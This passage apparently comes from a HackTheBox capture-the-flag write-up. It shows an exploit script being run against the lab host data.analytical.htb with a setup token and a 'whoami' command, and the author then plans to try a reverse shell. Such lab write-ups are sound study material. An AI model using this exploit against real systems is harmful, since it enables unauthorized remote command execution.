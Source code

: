 ![](./IMG/12.png)
> Execute the payload and check how to use
```
python main.py
```
![](./IMG/13.png)
> Then I execute an easy command 

```
python main.py -u http://data.analytical.htb -t <setup-token> -c 'whoami'
```

![](./IMG/14.png)
> The result show the Payload sent, but I can't view any result. 
> Back to the Github, if I directly send reverse shell, it might work.
